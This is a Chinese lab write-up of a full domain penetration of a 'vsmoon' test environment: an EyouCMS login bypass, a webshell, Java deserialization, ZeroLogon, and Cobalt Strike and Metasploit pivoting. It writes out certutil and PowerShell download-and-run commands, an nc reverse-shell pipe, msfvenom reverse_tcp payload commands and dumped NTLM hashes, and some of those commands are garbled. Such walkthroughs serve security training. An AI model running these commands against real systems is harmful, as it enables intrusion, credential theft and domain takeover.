


# 域渗透实战之 vsmoon - 先知社区

域渗透实战之 vsmoon

- - -

# 环境搭建：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172546-cdb2c558-7961-1.png)

## 搭建过程

web配置2个网卡，网卡0/0，22/0这2个网卡。  
192.168.0.116  
192.168.22.152

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172558-d4e09d64-7961-1.png)

data配置22网卡和10网卡。  
192.168.22.146  
10.10.10.136

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172608-da855d2c-7961-1.png)

ad配置10网卡。  
10.10.10.137

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172617-e053d436-7961-1.png)

# web打点

先去测试网络连通性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172629-e79cdba2-7961-1.png)

## 端口扫描

使用nmap进行端口探测。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172637-ebe508ec-7961-1.png)

## 目录扫描

然后扫描该网站存在那些url地址。.

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172645-f0d88798-7961-1.png)

发现后台地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172652-f4dfceb4-7961-1.png)

## Nday利用

### eyoucms-任意用户登录

application/api/controller/Ajax.php

```plain
/**
  * 获取表单令牌
  */
 public function get_token($name = '__token__')
 {
   if (IS_AJAX) {
     echo $this->request->token($name);
     exit;
   } else {
     abort(404);
   }
 }
```

跟进 $this->request->token core/library/think/Request.php

```plain
/**
  * 生成请求令牌
  * @access public
  * @param string $name 令牌名称
  * @param mixed $type 令牌生成方法
  * @return string
  */
 public function token($name = '__token__', $type = 'md5')
 {
   $type = is_callable($type) ? $type : 'md5';
   $token = call_user_func($type, $_SERVER['REQUEST_TIME_FLOAT']);
   if ($this->isAjax()) {
     header($name . ': ' . $token);
   }
   Session::set($name, $token);
   return $token;
 }
```

代码主要的功能是设置session 但是值是md5 $\_SERVER\['REQUEST\_TIME\_FLOAT'\]); 这个是获取服务  
时间戳  
再看后台验证 application/admin/controller/Base.php  
梳理思路 现在可以随意设置session里的name 值是md5的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172738-10476518-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172744-14178d76-7962-1.png)

现在可以随意设置session里的name 值是md5的  
接着绕过

```plain
$web_login_expiretime
$admin_login_expire 是服务器时间戳 md5 接着经过intval处理
public function get_token($name = '__token__')
 {
   if (IS_AJAX) {
   //  echo $this->request->token($name);
     $token = call_user_func('md5', $_SERVER['REQUEST_TIME_FLOAT']);
     echo getTime() - intval($token);
     exit;
   } else {
     abort(404);
   }
```

### 漏洞复现：

发现是eyoucms， 经过搜索发现后台存在任意登录漏洞。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172817-279929a4-7962-1.png)

写一个exp文件，然后获取用户cookie。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172824-2bd5f75e-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172830-2f75df6e-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172836-332b97ca-7962-1.png)

然后替换cookie，进行登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172854-3d8f37f8-7962-1.png)

然后在index.html文件写入paylaod。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172847-39816e38-7962-1.png)

## 获取webshell

使用蚁剑连接，成功获取webshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172902-42656536-7962-1.png)

# 内网渗透

## frp内网穿透

上传frp，运行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172912-48727c66-7962-1.png)

客户端，开启服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172918-4c2c60c4-7962-1.png)

## 上线cs

使用cs生成木马，然后通过蚁剑进行上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172928-5231d45e-7962-1.png)

## 内网信息收集

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172939-587168fc-7962-1.png)

hashdump获取用户hash。  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c51ba7c328cd01866885a37748816e07:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

## 收集域内信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172948-5deffdd4-7962-1.png)

该主机不是域内主机，为双网卡主机。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102172955-621e11c0-7962-1.png)

网段为0和22端。不出网机器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173001-65e4b17e-7962-1.png)

使用cs进行权限提升

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173010-6b2cfb50-7962-1.png)

使用代理进行端口扫描。发现存在多个端口开放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173017-6f165c48-7962-1.png)

## 横向移动

发现桌面有账号.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173023-72f9ff7c-7962-1.png)

和一个jar包，下载jar包，然后到本地，进行利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173035-79bf5348-7962-1.png)

## java代码审计：

使用jd-gui反编译jar包。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173041-7dc3025a-7962-1.png)

接收服务过来的信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173049-8245dc26-7962-1.png)

反序列化关键代码

```plain
ObjectInputStream ois = new
ObjectInputStream(this.socket.getInputStream());
  Message ms = (Message)ois.readObject();
```

这个是获取socket输入类再把序列化的内容跟反序列化变成指定的类。这里是服务器发送过来客户端的处理代码。服务端 在接收 登陆信息的时候 也应该是同样的处理。不过在转换类型的时候可能会异常退出。导致服务用过一次之后就不能使用了。从web服务器中看到的java版本是jdk1.8.0\_65 这个版本是能够使用cc1这条反序列化链接的。

```plain
<dependencies>
   <dependency>
     <groupId>commons-collections</groupId>
     <artifactId>commons-collections</artifactId>
     <version>3.2.1</version>
   </dependency>
 </dependencies>
```

序列化之后再进行反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173122-96079c68-7962-1.png)

## 横向data主机

使用ysuse生成cc6.ser文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173130-9a8b43ca-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173138-9f5b938c-7962-1.png)

## 反弹shell

使用cs进行执行。  
shell type C:\\phpstudy\_pro\\tmp\\cc66.ser | C:\\phpstudy\_pro\\tmp\\nc64.exe -nv 192.168.22.146 9999  
nc开启监听，成功反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173147-a4ebc4d4-7962-1.png)

## data主机上线cs

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173155-a9c386a4-7962-1.png)

```plain
netsh interface portproxy add v4tov4 listenport=4455 connectaddress=1.xxx.xxx.40 connectport=4455
```

```plain
shell netsh interface portproxy add v4tov4 listenport=80connectaddress=192..168.22.152:connectport=80
certutil -urlcache -split -f http://192..168.22.152:/beacon1.exe  beacon1.exe
certutil -urlcache -split -f http://192.168.22.152/beacon1.exe  beacon1.exe
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://192.168.22.152/beacon1.exe','beacon1.exe');start-process beacon.exe
```

使用cs生成beacon.exe，然后下载到data主机上，执行exe文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173241-c5564384-7962-1.png)

成功上线，发现该主机为双网段主机，10端为域内地址段。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173248-c962d406-7962-1.png)

# 域渗透

## 域内信息收集

发现域名为data.vsmoon.com

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173305-d38fcd94-7962-1.png)

然后用mimikatz获取凭证

## msf跨路由访问域控

使用msf生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost=192.168.0.128 lport=6666  
\-f exe > shell.exe  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173320-dc124974-7962-1.png)  
域控地址为：10.10.10.137

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173338-e6d2480a-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173346-eb8851aa-7962-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173353-f010a844-7962-1.png)

使用msf生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost= 192.168. 22.129 lport=6666  
\-f exe > shell.exe  
然后使用msf开启监听，上传shell.exe,成功上线。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173402-f50d72e6-7962-1.png)

## 搭建代理

然后设置代理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173409-f9ca006a-7962-1.png)

使用nmap进行端口探测

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173417-fe5b2622-7962-1.png)

## ZeroLogon(CVE-2020-1472) 提权域控

发现该主机为域内主机，存在ZeroLogon置空漏洞。  
使用脚本进行域控密码置空。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173427-0442967e-7963-1.png)

## 获取管理员hahsh

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173435-08eb44c8-7963-1.png)  
使用wmiexec进行横向移动  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:66120f7b66195b694faeabc4e3b6752d:::  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173442-0d2ed144-7963-1.png)

## 获取域控权限

成功获取域控权限。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173501-18561f1e-7963-1.png)  
利用获取到的管理员hash远程连接导出sam数据库中原来的计算机hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173517-223e45e2-7963-1.png)

## 恢复域控hash

恢复ntds.dit中的计算机hash并验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173532-2afecc56-7963-1.png)

.最后验证密码已经更改回去

```plain
73c7ee4d35c15fc80e7d8d9a13150a60ca9a0def38efc8482161f5f673ec677e7bec71316557b13550e4769094c59d18a3ab97553c625d24b687f5314651c79b55cf8e6fb1e21cafc463fa40166dd5deb8a6007125af1b900c67f00b8adf67468ad2e1f95aa3f9038c4670eb45e7646500d9d076e75bb93d01cf3ff748e1f9d5a77d4a978fb5434399ca8b2e21539d6882f7337fea9bc5c72c26a9b8a3a573294dc431780ad499c4eaebdd46abbcfe5b11d2393dacc253dfae8e6ce857b00af00a761379c73333f197bfd85b12da764f3ccbebb3072e03bc9698f3f382b3b28e231fb6c633cc71089896788a351deee1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231102173550-35e1b20a-7963-1.png)

REF:
